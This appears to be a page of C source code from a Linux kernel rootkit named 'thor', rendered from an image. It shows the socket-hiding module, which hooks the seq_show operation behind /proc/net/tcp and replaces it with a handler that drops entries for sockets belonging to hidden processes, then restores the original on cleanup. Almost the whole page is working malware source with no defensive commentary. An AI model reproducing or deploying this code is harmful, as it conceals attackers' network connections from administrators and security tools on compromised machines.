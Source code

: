 ```{.c .numberLines}
typedef int (*seq_show_fun)(struct seq_file*, void*);

static seq_show_fun orig_tcp4_seq_show;

int sockethider_init(void)
{
    orig_tcp4_seq_show = replace_tcp_seq_show(thor_tcp4_seq_show,
                                              "/proc/net/tcp");

    /* ... */
}

void sockethider_cleanup(void)
{
    replace_tcp_seq_show(orig_tcp4_seq_show, "/proc/net/tcp");

    /* ... */
}
```

## `replace_tcp_seq_show()`

```{.c .numberLines}
static seq_show_fun replace_tcp_seq_show(seq_show_fun new_seq_show,
                                         const char *path)
{
    void *old_seq_show;
    struct file *filp;
    struct tcp_seq_afinfo *afinfo;

    if ((filp = filp_open(path, O_RDONLY, 0)) == NULL)
        return NULL;

    afinfo = PDE_DATA(filp->f_dentry->d_inode);

    old_seq_show = afinfo->seq_ops.show;

    afinfo->seq_ops.show = new_seq_show;

    filp_close(filp, 0);

    return old_seq_show;
}
```

## `thor_tcp4_seq_show()`

```{.c .numberLines}
static int thor_tcp4_seq_show(struct seq_file *seq, void *v)
{
    /* hide port */
    if (v != SEQ_START_TOKEN && is_socket_process_hidden(v))
        return 0;

    /* call original */
    return orig_tcp4_seq_show(seq, v);
}
```
